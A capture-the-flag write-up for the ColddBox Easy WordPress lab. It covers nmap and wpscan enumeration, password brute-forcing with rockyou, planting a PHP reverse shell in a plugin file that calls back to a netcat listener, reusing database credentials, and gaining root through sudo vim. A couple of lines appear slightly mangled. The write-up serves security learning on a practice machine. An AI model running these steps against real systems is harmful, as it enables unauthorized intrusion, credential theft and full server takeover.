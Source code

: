 ```yaml
---
title: "(EN) Write-up : C0lddBox"
date: 2020-11-01T20:06:25+01:00
draft: false
---
```

**Machine-Author:** C0ldd\
**Description:** *Welcome to ColddBox Easy, it is a Wordpress machine with an easy level of difficulty, highly recommended for beginners in the field, good luck!*

**Download:**(https://mega.nz/file/VldHiIgA#4nRI2LPZs_x48_-ryCkPvL6Em2lQTSJEKvoReieDMec)

**Operating system:** Linux

**What will be covered in this write-up:**\
-enumeration\
-reverse-shell\
-privileges escalation

```
ENUMERATION
```
First, we need to find out where the machine is **located** on the network:

```nmap -sP 10.0.2.15/24```

**-sP**: it means **ping scan**, it considers that hosts are all up, so it doesn't need to discover them. It is a fast way to discover a machine.

We found an IP address ! :

```10.0.2.6```

Now, we can scan it with special options, to discover in details **what's running** on this machine :

```nmap -A -T5 -n 10.0.2.6```

**-A** : **Agressive** mode (discovers the OS version and the services versions).

**-T5** : timing template in **insane** mode, it determines the speed of the scan, more it's fast, less it is discreet.

**-n** : tells Nmap to **never** reverse DNS resolve active hosts it has found. Since DNS resolution is often **slow**, this **speeds** things up. 

Here is the scan output:
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
MAC Address: 08:00:27:7A:7E:2C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
``` 
Alright, we only have a website running on the port 80, hosting a **WordPress**, running on **Apache 2.4.18**, let's check what it looks like :![wordpress_site](../img/c0ldd_wp_background.PNG)

We can use a tool to scan this WordPress website, **wpscan** (a tool used to enumerate vulnerable stuffs on WordPress such as vulnerable plugins):

```wpscan --url http://10.0.2.6 -e u vp```

**-e**: enumeration mode\
**u**: user enumeration, without arguments it checks if there is 10 users max.\
**vp** : vulnerable plugins

Here is the output:
```
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```
We found some **users** !

**wpscan** provides a **dictionnary attack tool**, so let's use it:

```wpscan --url http://10.0.2.6 -P /usr/share/wordlists/rockyou.txt --usernames c0ldd,philip,hugo```

Here is the output:
```
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

```
Nice ! Let's try to login as c0ldd on the WordPress, maybe we got the **admin credentials** ? So let's go in **/wp-admin/**:
![wp_users](../img/users_wp.PNG)

We can see that the user **c0ldd** is the **admin** of the WordPress ! Perfect. We can now **add** or **delete** things, maybe we could setup a **reverse-shell** to have a better control of the web-server ?

```
REVERSE-SHELL
```
We could put a PHP reverse-shell code into the plugins configuration. All we have to do is to go ro the **Plugins** menu, then you can modify the **Akismset** plugin, go into the file **akismet/class.akismet-admin.php**, then just select all its content and delete it to paste the reverse shell.

The code I used for the reverse-shell is located in ```/usr/share/webshells/php-reverse-shell.php```

Then you have to **modify** the reverse-shell code, you need to put your **listening IP** and the **port** that will be waiting for a connexion. It is presented like that :
```
$ip = '10.0.2.15';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```
When it's done, **update** the changes.

The principle of the **reverse-shell** is that a remote computer will connect you yours, and each command you will type will be sent to his computer and it will **display the output(s)** of your commands on **your** own shell.

So let's wait for the connexion on our computer with netcat:

```nc -lvp 4443```

**-l**: listen mode\
**-v**: verbose mode\
**-p**: port which the IP is listening on

Now let's connect from the WordPress, we modified a plugin, so all we got to do to launch the connexion request is to click on **activate** or **deactivate** function of the **akismet** plugin.

Here we are, I am connected !
```
listening on [any] 4443 ...
10.0.2.6: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.6] 48442
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 
UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:51:01 up  2:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We need to find the flag of the user **c0ldd** before trying to be **#root**, first, let's spawn a tty (terminal). The only command that worked for me was:

```$ python3 -c 'import pty; pty.spawn("/bin/bash")'```

Now we have a terminal, we can see that we are the user **www-data**, so we have rights to edit/delete some files of the web server. Let's check it out!

```cd /var/www/html```

c
```
/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```
Perfect, now let's try to login as **c0ldd** with the password **cybersecurity** :
```
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd
su - c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:~$ id
id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd)
```
It works ! We just have to cat the user flag :

```
cat user.txt | base64 -d Felicidades
primer nivel conseguido!c0ldd@ColddBox-Easy
```
We now need to be **#root**...

```
PRIVILEGE ESCALATION
```
The objective of the privilege escalation is to use system **misconfigurations** to escalate to the **#root** user.
This website is usefull to find some : 

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

I found that the command ```sudo -l``` lists the allowed (and forbidden) commands for the invoking user

You can also use the tool Linpeas that enumerate many things for the privilege escalation, check it out:

[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

After typing the ```sudo -l``` command, i found this: 
```
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```
I can run these command as **#root** but without placing **sudo** in front of em. It's a good way to try a privilege escalation. Let's checkout for vim, there is a good website that gives us commands to privesc, or to spawn a tty, make a reverse shell and it is :

[GTFO Bins](https://gtfobins.github.io/gtfobins/vim/#suid)

So **GTFO Bins** gave us something to type with vim, let's execute it : 

``sudo vim -c ':!/bin/sh'``

We are **#root** !! We can now **cat** the **#root** flag :) 
``Felicidades, primer nivel conseguido!#``

```
SPECIAL THANKS
```
I'd like to thanks **Kr0wZ**, who guided me for this CTF, you can check out his blog : 
[KrowZ Blog](https://kr0wz.github.io/fr/)\
Thanks to **Mysaz** who also helped me for this CTF\
Thanks to **IsIghTT**, here is his discord **IsIghTT#3829**



